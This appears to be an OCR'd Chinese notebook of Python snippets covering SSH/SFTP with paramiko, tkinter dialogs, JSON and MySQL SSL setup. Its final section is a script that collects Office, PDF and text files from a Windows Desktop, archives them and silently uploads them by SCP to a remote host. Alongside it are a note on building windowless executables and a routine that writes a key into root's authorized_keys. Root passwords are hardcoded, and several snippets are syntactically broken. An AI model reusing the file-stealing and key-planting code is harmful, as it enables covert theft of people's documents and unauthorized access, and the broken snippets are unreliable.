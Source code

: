 #-*- mode=python ending:utf-8 -*-
#############-----------------         随机验证码           ---------##############################
import random
def get_code(xx):
   a='1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
   b=''
   for i in range(xx):
        c=random.randint(0,61)
        b+=a[c]
   return b   
   
#####################  ###-----------------        python打包为tar包        ---------###########
 tar=tarfile.open("a.tar.gz","w:gz")
    for i in file:
        tar.add(i)
    tar.close()  
#####################  ###-----------------        获取系统命令返回值         ---------###########
import subprocess
(a,b)=subprocess.getstatusoutput("curl -Ss ifconfig.me")

##########################---------------         遍历目录查找文件    ---------#############

def search(dir,fil):
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa,fil)
            os.chdir(os.pardir)
        elif fil in pa.split("/")[-1] :
            print(pa)
##########################-----------------         ssh 密钥认证           ---------################
#公钥打包exe程序需要添加 --key id_rsa参数  pyinstaller -F -w --key id_rsa .py      
import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
private_key=paramiko.RSAKey.from_private_key_file("id_rsa")
client.connect(hostname='192.168.116.200', port=22, username='root', pkey=private_key)
print(client.get_transport().is_active())
stdin, stdout, stderr = client.exec_command('ls')
a,b=stdout.read(),stderr.read() 		 #获取执行结果   
result= a if a else b       
print(result.decode())
#--------------------------------------------       scp上传下载            ---------################
import paramiko
s=paramiko.Transport(("192.168.116.200",22))
s.connect(username='root',password='xiaoxue')
sftp=paramiko.SFTPClient.from_transport(s)
sftp.get("/usr/local/nginx/html/aaa.txt",'c.txt')

#############---------------        多主机不输入密码上传公钥             ---------################

import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(hostname='192.168.116.200', port=22, username='root', password="xiaoxue")
with open("id_rsa.pub",'r') as f:
    GY=f.read()
client.exec_command('if [ ! -d /root/.ssh ];then mkdir /root/.ssh;fi')
client.exec_command('echo {} > /root/.ssh/authorized_keys'.format(GY))
#############---------------         time获取时间              ---------################
time.strftime("%Y_%m_%d_%H:%M:%S",time.localtime(time.time()))


######################-----------------        json编码解码              ---------##############################
import json
js={"name":"张三","age"=26}            
json.dumps(js)          #json编码
json.loads(js)          #json解码

with open("a.js",'w') as f :             #保存为文件   
      json.dump(js,f)                    #json编码
         
with open('a.js','r') as f:              #读取文件
     js=json.load(f)                     #json解码


#####################-----------------        弹出提示对话框,判断有文件    ---------###########################
--  1   （推荐）----------------------------------------------------------------------------------------------
import easygui
easygui.msgbox("what are you doing now\n\n",'提示')
--  2   ------------------------------------------------------------------------------------------------------
import win32api,os,sys      
import win32con            
if os.path.isfile("src\\id_rsa.txt"):
    pass
else:
    win32api.MessageBox(win32con.NULL, "没有文件", "提示",win32con.MB_OK | win32con.MB_ICONINFORMATION)
    sys.exit(0)
--  3   -------------------------------------------------------------------------------------------------------
from tkinter import  messagebox
easygui.msgbox("lalala~",'提示')
easygui.ccbox("lalala~",'提示')   #True,False

--  4   -------------------------------------------------------------------------------------------------------
import tkinter
import tkinter.messagebox #弹窗库
1、提示消息框
tkinter.messagebox.showinfo('提示','人生苦短')
2、消息警告框
tkinter.messagebox.showwarning('警告','明日有大雨')
3、错误消息框
tkinter.messagebox.showerror('错误','出错了')
4、对话框
tkinter.messagebox.askokcancel('提示', '要执行此操作吗')#确定/取消，返回值true/false
tkinter.messagebox.askquestion('提示', '要执行此操作吗')#是/否，返回值yes/no
tkinter.messagebox.askyesno('提示', '要执行此操作吗')#是/否，返回值true/false
tkinter.messagebox.askretrycancel('提示', '要执行此操作吗')#重试/取消，返回值true/false
5、文件对话框
import tkinter.filedialog
a=tkinter.filedialog.asksaveasfilename()#返回文件名
print(a)
a =tkinter.filedialog.asksaveasfile()#会创建文件
print(a)
a =tkinter.filedialog.askopenfilename()#返回文件名
print(a)
a =tkinter.filedialog.askopenfile()#返回文件流对象
print(a)
a =tkinter.filedialog.askdirectory()#返回目录名
print(a)
a =tkinter.filedialog.askopenfilenames()#可以返回多个文件名
print(a)
a =tkinter.filedialog.askopenfiles()#多个文件流对象
print(a)
#################################-----------------        mysql数据库操作连接          ---------###########
create table IF NOT EXISTS ab(id int(50) primary key,name varchar(20),message varchar(100)) DEFAULT CHARSET=utf8;
mysql_ssl_rsa_setup --uid=mysql
vim /etc/my.cnf
ssl-ca=/var/lib/mysql/ca.pem
ssl-cert=/var/lib/mysql/server-cert.pem
ssl-key=/var/lib/mysql/server-key.pem
require_secure_transport = ON
bind-address = 0.0.0.0
systemctl  restart mysqld
ALTER USER 'root'@'%' require ssl;                                        #修改用户只允许ssl连接 
grant all privileges on *.* to 'root'@"%" identified by 'Pwd@123456' require ssl;    #授权时候只允许ssl
FLUSH PRIVILEGES;
show variables like '%ssl%';   #查看是否开启ssl连接
\s                              #看是否是ssl连接
alter user 'root'@'%' require x509;         #证书(pymysql不能用)
mysql -uroot -pPwd@123456 -h 192.168.116.200 --ssl-cert=/var/lib/mysql/client-cert.pem --ssl-key=/var/lib/mysql/client-key.pem --ssl-ca=/var/lib/mysql/ca.pem
###############-----------------                ssl+pymysql                 -------------------------
db = pymysql.connect(host="192.168.116.200",user="root",passwd="Pwd@123456",database="python",ssl={"ssl":''}})
a= db.cursor()
a.execute('insert into  user(ip,time) values("123","80:02"')) #创建写入数据
db.commit()
a.execute('select time  from {} where ip="{}";'.format(abrr,who))           #查询读取数据
print(a.fetchall())

#################################-----------------        检索文件远程发送         ---------###########
import os,paramiko,time,tarfile,easygui,threading,socket
from scp import SCPClient
def SCP(file):
    ssh=paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname="192.168.116.200", port=22, username='zhangsan', password="zs")
    scp=SCPClient(ssh.get_transport(),socket_timeout=15.0)
    os.chdir("C:\\Users\\Administrator\\")
    tar=tarfile.open(tarn,"w:gz")
    for i in file:
        tar.add(i)
    tar.close()
    scp.put(tarn,"~")
    os.remove(tarn)
    scp.close()
wenjian = []
def search(dir):
    global wenjian
    jiewei=['doc','docx','xls','xlsx','txt','pdf']
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa)
            os.chdir(os.pardir)
        else:
            for i in jiewei:
                if i in pa.split("\\")[-1]:
                  wenjian.append(pa)
if __name__=="__main__":
  try:
    a=time.time()
    tarn = socket.gethostbyname(socket.gethostname()) + ".tar.gz"
    search("C:\\Users\\Administrator\\Desktop")
    threading.Thread(target=SCP,args=(wenjian,)).start()
    print("okay..........................",time.time()-a)
  except  Exception as f :
      easygui.msgbox(str(f),'linux')
